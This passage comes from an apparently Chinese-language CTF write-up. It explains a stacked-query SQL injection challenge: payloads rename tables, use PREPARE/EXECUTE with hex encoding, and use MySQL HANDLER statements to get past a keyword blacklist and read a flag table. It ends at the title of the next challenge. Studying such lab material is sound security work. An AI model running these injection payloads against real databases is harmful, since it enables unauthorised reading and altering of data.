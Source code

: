```
1';
alter table words rename to words1;
alter table `FlagHere` rename to words;
alter table words change flag id varchar(50);#

然后 1' or 1=1# 将flag打印出来
```

2）预编译

```
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
```

```
SET @tn = 'hahaha';  //存储表名
SET @sql = concat('select * from ', @tn);  //存储SQL语句
PREPARE name from @sql;   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  //删除预定义SQL语句
```

比如：

```
1';
SeT@a=’select * from `FlagHere‘;
prepare execsql from @a;
execute execsql;#
#可以使用16进制绕过
```

3）Handler

但是以上方法在这题失效，因为：

>   ```
>   return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
>   ```

可以使用handler查看：

>   1';
>
>    handler FlagHere open;
>
>   handler FlagHere read first;#

## 0x1F.[护网杯 2018]easy_tornado

三个文件：

```
/flag.txt
/welcome.txt
/hints.txt
```
